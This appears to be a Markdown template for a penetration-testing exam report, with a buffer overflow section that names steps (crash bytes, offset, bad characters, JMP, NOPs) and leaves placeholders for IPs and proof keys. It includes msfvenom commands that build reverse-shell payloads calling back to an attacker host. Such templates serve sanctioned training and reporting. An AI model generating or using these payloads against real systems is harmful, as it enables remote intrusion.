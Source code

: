 ### IP: IP - HOSTNAME

#### Buffer Overflow Exploitation

The Exam network has provided a testbed Windows machine (IP: TODO). There is a vulnerable application file located
at `C:\TODO\TODO.exe`. A sample `POC.py` script has been provided.

**Testbed Exploitation Overview:**

NOTE: Files using in this section are attached in the Appendix section.

**Step1: Finding crash-bytes**

**Step2: Finding offset & EIP**

**Step3: Finding badChars**

**Step4: Finding JMP**

**Step5: Generating payload**

1. msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c
2. [OR]
3. msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "badChars" -f c

**Step6: Prepend NOPs**

**Step7: Test on testbed environment**

**Target Exploitation:**

**proof.txt screenshot:**

![Contents of proof.txt]()

**proof.txt Contents:** `KEY`

\pagebreak
